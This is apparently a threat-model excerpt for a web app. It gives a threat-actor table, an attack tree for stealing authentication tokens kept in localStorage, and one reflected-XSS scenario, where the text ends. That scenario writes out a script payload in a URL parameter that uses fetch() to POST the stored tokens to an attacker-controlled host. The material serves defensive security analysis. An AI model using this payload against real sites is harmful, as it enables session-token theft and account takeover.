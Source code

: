 ### Threat Actors

| Actor | Motivation | Capability | Likelihood |
|-------|-----------|-----------|------------|
| **External Attacker** | Financial gain, data theft | High (commodity XSS exploits) | High |
| **Malicious Insider** | Corporate espionage | Medium (requires code injection) | Low |
| **Script Kiddie** | Curiosity, reputation | Low (uses public exploits) | Medium |
| **Competitor** | Business intelligence | High (targeted attacks) | Medium |

### Attack Tree

```
┌─────────────────────────────────────────────────────────────┐
│         ROOT: Steal Authentication Tokens                    │
└────────────────────┬────────────────────────────────────────┘
                     │
        ┌────────────┴────────────┐
        │                          │
        ↓                          ↓
┌──────────────────┐       ┌──────────────────┐
│  Attack Path 1:  │       │  Attack Path 2:  │
│  XSS Injection   │       │  Browser         │
│  (CRITICAL)      │       │  Extension       │
└────────┬─────────┘       └────────┬─────────┘
         │                           │
    ┌────┴────┐                 ┌────┴────┐
    │         │                 │         │
    ↓         ↓                 ↓         ↓
┌────────┐ ┌────────┐      ┌────────┐ ┌────────┐
│Reflected│ │Stored  │      │Malicious│ │Compromised│
│  XSS    │ │  XSS   │      │Extension│ │Extension  │
└───┬────┘ └───┬────┘      └───┬────┘ └───┬────┘
    │          │                │          │
    └──────────┴────────────────┴──────────┘
                     │
                     ↓
┌─────────────────────────────────────────────────────────────┐
│  Exploit: localStorage.getItem('auth_tokens')                │
│  Impact: Exfiltrate tokens to attacker-controlled server    │
│  CVSS: 9.1 (CRITICAL)                                        │
└─────────────────────────────────────────────────────────────┘
```

### Detailed Attack Scenarios

#### Scenario 1: Reflected XSS via URL Parameter

**Attack Vector:**
```
https://agentstudio.com/agents?search=<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('auth_tokens')
  });
</script>
```
